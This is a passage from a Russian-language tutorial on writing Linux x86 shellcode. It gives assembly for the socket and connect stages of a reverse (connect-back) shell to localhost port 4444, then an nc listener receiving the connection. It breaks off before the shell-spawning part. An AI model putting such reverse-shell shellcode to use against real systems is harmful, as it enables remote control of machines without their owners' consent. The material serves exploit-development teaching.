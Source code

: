 Теперь давайте запишем это:

```c
; nasm -f elf32 connectback.asm
; ld -m elf_i386 connectback.o -o connectback
BITS 32

section .text
global _start

_start:
; Call to socket(2, 1, 0)
push 0x66     ; socketcall()
pop eax 
xor ebx, ebx
inc ebx       ; EBX = 1 for SYS_SOCKET
xor edx, edx  ; Bulding args array for socket() call
push edx      ; proto = 0 (IPPROTO_IP)
push BYTE 0x1 ; SOCK_STREAM
push BYTE 0x2 ; AF_INET
mov ecx, esp  ; ECX contain the array pointer
int 0x80      ; After the call, EAX contains the file descriptor

xchg esi, eax ; ESI = fd

; Call to connect(fd, [AF_INET, 4444, 127.0.0.1], 16)
push 0x66         ; socketcall()
pop eax 
mov edx, 0x02010180 ; Trick to avoid null bytes (128.1.1.2)
sub edx, 0x01010101 ; 128.1.1.2 - 1.1.1.1 = 127.0.0.1
push edx          ; store 127.0.0.1
push WORD 0x5c11  ; push port 4444
inc ebx           ; EBX = 2
push WORD bx      ; AF_INET
mov ecx, esp      ; pointer to sockaddr
push BYTE 0x10    ; 16, size of addrlen
push ecx          ; new pointer to sockaddr
push esi          ; fd pointer
mov ecx, esp      ; ECX contain the array pointer
inc ebx           ; EBX = 3 for SYS_CONNECT
int 0x80          ; EAX contains the connected socket
```

Теперь соберите и слинкуйте шелл-код, затем откройте прослушиватель в другой оболочке и запустите код:

```
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 51834
```

Ваш шеллкод будет _segfault_ , но это нормально. Тем не менее, вы должны получить соединение на вашем слушателе. Теперь нам нужно реализовать **шелл-** часть нашего шелл-кода. Для этого нам придется поиграть с _файловыми дескрипторами_ . Есть 3 стандартных файловых дескриптора:
